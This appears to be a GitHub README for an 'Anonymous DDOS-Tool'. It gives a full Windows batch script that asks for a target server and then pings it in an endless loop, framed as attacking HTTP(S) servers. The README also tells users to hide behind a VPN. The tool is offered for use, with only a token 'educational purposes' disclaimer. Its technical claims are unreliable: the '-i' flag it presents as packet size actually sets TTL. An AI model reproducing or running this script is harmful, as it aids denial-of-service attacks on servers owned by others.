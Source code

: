 # DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here: https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Install
 1) Copy the folllowing code to youre Notepad:
 @echo off
mode 67,16
title DDOS Attack by MR Jack
color 0a
cls
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo DDOS With Batchfile
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo.
set /p x=Server-Target:
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
ping %x%
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
@ping.exe 127.0.0.1 -n 5 -w 1000 > nul
goto Next
:Next
echo.
echo.
echo.
set /p m=ip Host:
echo.
set /p n=Packet Size:
echo.
:DDOS
color 0c
echo Attacking Server %m%
ping %m% -i %n% -t >nul
goto DDOS


2) when u are in the notepad dont forget to remove the Spaces of the code otherwise it wont work

3) enter the target server, the ip and how many packets u want to send to the Server


Enjoy


# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  
